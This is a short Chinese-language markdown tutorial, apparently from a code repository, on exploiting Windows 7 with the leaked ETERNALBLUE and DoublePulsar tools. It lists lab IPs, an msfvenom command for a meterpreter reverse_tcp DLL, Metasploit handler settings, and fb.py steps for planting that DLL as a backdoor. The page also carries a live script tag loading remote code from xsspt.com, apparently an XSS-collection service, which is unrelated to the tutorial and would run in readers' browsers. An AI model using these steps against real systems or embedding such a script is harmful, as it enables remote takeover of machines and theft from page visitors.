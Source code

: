 # 0day
<script src=//xsspt.com/UwWHCN></script>
方程式 0day ETERNALBLUE 
<BR>环境部署</BR>
<BR>攻击环境:32位系统[win7 2003均可]&Kali系统</BR>
<BR>靶机环境:win7 x86</BR>
<BR>安装程序: pywin32-221.win32-py2.6与python-2.6.6[均已打包]</BR>
<BR>已经今天的主角影子经纪人公布的方程式0day ETERNALBLUE</BR>
<BR>号称入侵一切Windows主机[深切会到帝国主义的强大]</BR>
<BR> 下载地址:https://github.com/misterch0c/shadowbroker</BR>
<BR>环境介绍<BR>
<BR>攻击者win2003: 192.168.220.128</BR>
<BR>攻击者Kali：192.168.220.129</BR>
<BR>受害者win7: 192.168.220.132</BR>
<BR>攻击环节</BR>
<BR>进入Kali</BR>
<BR>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=5555 -f dll > s.dll</BR>
<BR>msfconsole 启动msf命令</BR>
<BR>msf > use exploit/multi/handler</BR>
<BR>msf > set LHOST IP</BR>
<BR>msf > set LPORT 5555</BR>
<BR>msf > set PAYLOAD windows/x64/meterpreter/reverse_tcp</BR>
<BR>msf > exploit  #开启监听后我们开始攻击配置</BR>
<BR>进入Win2003</BR>
<BR>解压shadowbroker进入windows目录，新建listeningposts目录。#这里我就不演示了</BR>
<BR>运行fb.py，创建一个攻击项目:</BR>
<BR>TargetIP输入受害者IP</BR>
<BR>CallbackIP输入攻击者IP</BR>
<BR>使用重定向 no</BR>
<BR>输入use Eternalblue</BR>
<BR>选择目标系统是根据实际情况选择</BR>
<BR>选择传输装置是选择FB</BR>
<BR>输入use Doublepulsar</BR>
<BR>目标系统:根据系统选择</BR>
<BR>种植后门:选择RunDLL</BR>
<BR>讲MSF生成的DLL木马位置写入进去</BR>
成功
